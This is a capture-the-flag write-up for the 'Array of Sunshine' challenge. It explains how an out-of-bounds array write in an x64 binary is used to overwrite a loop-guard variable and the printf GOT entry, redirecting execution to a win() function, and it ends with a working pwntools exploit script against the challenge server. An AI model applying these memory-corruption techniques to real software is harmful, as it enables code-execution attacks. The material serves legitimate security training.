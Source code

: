 # Array of Sunshine

The challenge is to exploit an index out of bound write in a x64 binary.
The program asks for two inputs. The first defines the index of the fruits-array
and the second input writes into the memory of the specified index location:

![Basic Output](img1.png)

The program exits after the second input. However, if we take a look at the main function
we can see that there is a loop around the basket function:

![loop](img2.png)

The problem is, that after the second input, the program checks a magic-variable called
"printf_sym". If this magic variable is not 0x6, the programm jumps to the exit-function:

![exit](img3.png)

If we can somehow overwrite that variable with the value 0x6, the loop would work and we
can repeat the basket function. So the first thing we did, was to examine the memory down
from array[0]: 

![get the base address](img4.png)

We entered 0 into the first scanf and then we got an address to write to
in the second scanf. We used this address as our base and examined the memory in gdb:

![memup](img5.png)

As we can see, the variable "printf_sym" can be reached by increasing the index. By trial 
and error we figured out that the index to point to "printf_sym" is 10.

Now we are able to loop and repeat the basket function as often as we want. Next we need to
find a way to manipulate the execution flow. So we examined the memory again. This time we
decreased the addresses:

![memdown](img6.png)

And we found some got.plt locations:

![printf got](img7.png)

We can overwrite the printf@got.plt(index offset -12) with any address in the memory. The next time printf is
executed, the programm will jump to our address instead. So we were looking for some useful
functions and found the function "win":

![win function](img8.png)

The win() function executes system("cat flag.txt"). Thats exactly what we want to do. So lets
replace the print@got.plt-address with the address of the win-function:

```python
from pwn import p64
from pwn import *

context.log_level = 'debug'

#p = process("./sunshine")
p = remote("chal.2023.sunshinectf.games", 23003)
 
p.recvuntil(b"Which fruit would you like to eat [0-3] >>> ")
p.send(str.encode("10\n")) # offset to printf_sym
print(p.recvuntil(b"Type of new fruit >>>"))
p.send(b"\x06\x00\x00\x00\x00\x00\x00\x00") # 0x6
p.send(str.encode("\n"))
p.recvuntil(b"Which fruit would you like to eat [0-3] >>> ")
p.send(str.encode("-12\n")) # offset to printf@got.plt
print(p.recvuntil(b"Type of new fruit >>>"))
p.send(b'\x8f\x12\x40\x00\x00\x00\x00\x00') # address of win
p.send(str.encode("\n"))
print(p.recv())
print(p.recv())

```

![pwn](img9.png)

